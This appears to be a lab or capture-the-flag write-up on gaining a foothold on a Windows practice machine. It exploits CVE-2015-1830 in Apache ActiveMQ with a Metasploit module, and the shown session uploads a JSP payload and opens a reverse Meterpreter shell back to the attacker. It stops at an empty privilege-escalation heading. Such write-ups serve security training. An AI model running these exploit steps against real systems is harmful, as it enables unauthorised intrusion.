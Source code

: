 ```terminal
```

The target is a windows box with multiple ports open. We have mail services(POP3, IMAP, SMTP), HTTP servers(Apache, IIS...) and the typical windows services like SMB and msrpc.

There is a lot to go through in this box but I will go directly to the how I gained foothold on this box.

## **Foothold**

After checking all the services for default credential authentication, outdated and vulnerable services we finally find a hit with port 61613

```text
61613/tcp open  stomp    syn-ack Apache ActiveMQ 5.10.1 - 5.11.1
```

This port is running `ActiveMQ 5.10.1 - 5.11.1`, and after some research on google with find the [CVE-2015-1830](https://nvd.nist.gov/vuln/detail/cve-2015-1830).

>Directory traversal vulnerability in the fileserver upload/download functionality for blob messages in Apache ActiveMQ 5.x before 5.11.2 for Windows allows remote attackers to create JSP files in arbitrary directories via unspecified vectors.
{: .prompt-info }

The exploit for this vulnerability can be found in metasploit with the name `exploit/multi/http/apache_activemq_upload_jsp`.

```terminal
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_activemq_upload_jsp) >> set rhosts 10.150.150.219
rhosts => 10.150.150.219
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_activemq_upload_jsp) >> set lhost tun0
lhost => 10.66.66.230
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_activemq_upload_jsp) >> exploit
[*] Started reverse TCP handler on 10.66.66.230:4444 
[*] Uploading http://10.150.150.219:8161/C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//DhYnsDUvYhY.jar
[*] Uploading http://10.150.150.219:8161/C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//DhYnsDUvYhY.jsp
[*] Sending stage (58073 bytes) to 10.150.150.219
[+] Deleted C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//DhYnsDUvYhY.jsp
[*] Meterpreter session 1 opened (10.66.66.230:4444 -> 10.150.150.219:49316) at 2025-04-22 12:32:02 +0100
[!] This exploit may require manual cleanup of 'C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin\../webapps/api//DhYnsDUvYhY.jar' on the target

(Meterpreter 1)(C:\Users\User\Desktop\apache-activemq-5.11.1-bin\apache-activemq-5.11.1\bin) > getuid
Server username: User
```

## **Privilege Escalation**
